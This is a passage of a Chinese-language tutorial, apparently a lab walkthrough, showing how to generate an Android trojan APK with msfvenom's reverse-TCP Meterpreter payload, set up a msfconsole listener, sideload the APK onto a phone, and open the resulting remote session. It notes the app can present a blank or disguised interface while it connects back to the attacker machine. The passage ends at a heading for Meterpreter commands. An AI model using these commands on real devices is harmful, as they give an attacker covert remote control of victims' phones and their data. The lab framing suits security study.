 
<hr>
<h2>1. 攻击机终端（生成 Android 木马）</h2>
<p>在 Kali 上执行：</p>
<pre><code class="language-bash"># 生成基础 Android 木马
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o payload.apk
</code></pre>
<p>参数说明：</p>
<ul>
<li>
<p><code inline="">-p android/meterpreter/reverse_tcp</code>：Android 平台 Meterpreter 反向连接。</p>
</li>
<li>
<p><code inline="">LHOST</code>：攻击机 IP。</p>
</li>
<li>
<p><code inline="">LPORT</code>：监听端口。</p>
</li>
<li>
<p><code inline="">-o payload.apk</code>：输出 APK 文件。</p>
</li>
</ul>
<p>生成后，把 <code inline="">payload.apk</code> 传到 Android（实验机），可以用：</p>
<ul>
<li>
<p>USB 数据线</p>
</li>
<li>
<p>局域网 HTTP 服务（<code inline="">python3 -m http.server</code>）</p>
</li>
<li>
<p>共享文件夹（如 Termux 访问）</p>
</li>
</ul>
<hr>
<h2>2. 攻击机终端（监听 Android 会话）</h2>
<pre><code class="language-bash">msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
</code></pre>
<p>等待手机端执行木马。</p>
<hr>
<h2>3. 手机终端（安装与运行木马）</h2>
<p>在 Android 手机（建议用虚拟机或测试机）上：</p>
<pre><code class="language-bash"># 如果用 adb
adb install payload.apk
</code></pre>
<p>或者在手机文件管理器里直接点击安装（需开启“允许安装未知来源应用”）。</p>
<p>安装后，运行木马 App，<strong>界面可能为空白或是伪装界面</strong>，但实际上已经在后台发起反向连接。</p>
<hr>
<h2>4. 攻击机终端（获取 Android 会话）</h2>
<p>当手机运行木马后，Kali 会显示：</p>
<pre><code class="language-bash">[*] Meterpreter session 1 opened (192.168.1.100:4444 -&gt; 192.168.1.105:43211) at 2025-08-10 22:40:00
</code></pre>
<p>进入会话：</p>
<pre><code class="language-bash">sessions -i 1
</code></pre>
<hr>
<h2>5. Android Meterpreter 常用命令</h2>